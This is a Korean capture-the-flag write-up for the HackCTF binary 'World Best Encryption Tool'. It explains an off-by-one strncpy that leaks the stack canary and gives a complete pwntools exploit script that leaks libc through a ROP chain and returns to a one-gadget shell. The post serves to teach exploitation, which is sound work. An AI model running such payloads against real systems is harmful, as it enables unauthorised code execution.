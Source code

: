 ```yaml
---
title: "[HackCTF]World Best Encryption Tool"
date: 2020-1-28
tags: [HackCTF]
categories: [HackCTF]
---
```


Partial RELRO, Canary, NX 걸려있다.

```
[*] '/vagrant/ctfs/World_best_encryption_tool'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

메인에서는 scanf로 입력받아서 50글자 28이랑 xor해주고 strncpy로 57만큼 복사해준다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int i; // [rsp+8h] [rbp-88h]
  char s1; // [rsp+Ch] [rbp-84h]
  char src[64]; // [rsp+10h] [rbp-80h]
  char dest; // [rsp+50h] [rbp-40h]
  unsigned __int64 v8; // [rsp+88h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  do
  {
    puts("Your text)");
    __isoc99_scanf("%s", src);
    for ( i = 0; i <= 49; ++i )
      src[i] ^= 28u;
    strncpy(&dest, src, 57uLL);
    printf("Encrypted text)\n%s", &dest);
    puts("\nWanna encrypt other text? (Yes/No)");
    __isoc99_scanf("%s", &s1);
  }
  while ( !strcmp(&s1, "Yes") );
  if ( strcmp(&s1, "No") )
    printf("It's not on the option", "No");
  return 0;
}
```

스택은 이런식으로 되어있다. 

```
src(64) | dest(56) | canary(8) | sfp(8) | ret
```

src에서 dest로 복사할때 57만큼 복사하는데 여기서 dest크기는 56인데 canary 1바이트 덮을 수 있고 printf로 인자에 dest가 들어가니까 카나리 릭해줄 수 있다. 그리고 밑에서 또 입력받는데 여기서 카나리 맞춰주고 libc leak해주고 main으로 돌려서 무난하게 원샷 리턴해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./World_best_encryption_tool')
#p = process('./World_best_encryption_tool')
libc = e.libc
p = remote('ctf.j0n9hyun.xyz',3027)
prdi = 0x00000000004008e3 # pop rdi ; ret

p.sendlineafter('Your text)\n','A'*56+'B')

p.recvuntil('AAAAAA')
canary = u64(p.recv(8)) - 0x42
log.info('canary : ' + hex(canary))

#p.sendlineafter('(Yes/No)\n','Yes')

#payload = 'A'*56 + '\x00'
payload = 'A'*60 + '\x00' + 'B'*63
payload += p64(canary)
payload += 'A'*8
payload += p64(prdi)
payload += p64(e.got['__libc_start_main'])
payload += p64(e.plt['puts'])
payload += p64(e.symbols['main'])

p.sendlineafter('(Yes/No)\n',payload)

libc_base = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00') - libc.symbols['__libc_start_main']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('Your text)\n','A'*56 + '\x00' + 'B'*63 + p64(canary) + 'A'*8 + p64(libc_base + 0x45216))

p.interactive()
```

